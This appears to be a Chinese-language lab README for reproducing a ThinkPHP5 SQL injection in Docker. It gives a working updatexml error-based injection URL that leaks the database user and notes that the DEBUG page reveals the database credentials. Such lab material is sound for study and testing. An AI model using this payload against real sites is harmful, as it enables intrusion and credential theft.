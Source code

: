 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

运行环境：

```
docker compose up -d
```

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞原理

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

不再赘述。

## 漏洞利用

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![](01.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![](02.png)

这又属于一个敏感信息泄露漏洞。
